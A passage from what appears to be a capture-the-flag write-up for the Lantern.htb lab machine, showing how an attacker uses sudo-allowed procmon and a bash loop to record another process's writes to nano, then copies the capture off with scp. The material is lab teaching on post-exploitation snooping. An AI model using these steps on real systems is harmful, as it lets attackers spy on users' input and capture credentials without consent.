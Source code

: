 
   The script is not directly accessible, but it's being executed.

3. **Monitor the Process**:

    Use `procmon` to monitor process activities:

    ```bash
    ps -aef | grep automation
    ```

    ![alt text](image-16.png)

    ```bash
    sudo /usr/bin/procmon -p <Automation PID> -e write
    ```

    Save the output with F6 and quit with F9.

   Alternatively, use a script to monitor and capture output:

    ```bash
    #!/bin/bash

    OLD_PID=$(ps -ef | grep -i nano | grep -v grep | awk '{print $2}')

    while true; do
        NEWPID=$(ps -ef | grep -i nano | grep -v grep | awk '{print $2}')
        
        if [ "$OLD_PID" != "$NEWPID" ] && [[ -n "$NEWPID" ]]; then
            echo "We have a new PID! Old PID: $OLD_PID, New PID: $NEWPID"
            OLD_PID=$NEWPID
            sudo /usr/bin/procmon -p $NEWPID -e write -c nano$NEWPID.out
        fi
        
        sleep 5
    done
    ```

4. **Transfer and Analyze the Output**:

    ```bash
    scp -i id_rsa tomas@lantern.htb:/path/to/nano10720.out nano10720.out
    ```

   The output file is in SQLite format; use appropriate tools to analyze it.

This guide details the steps and methods used to compromise the Lantern.htb machine, capture the user flag, and escalate privileges. Ensure to handle all data with care and follow ethical guidelines while engaging in such activities.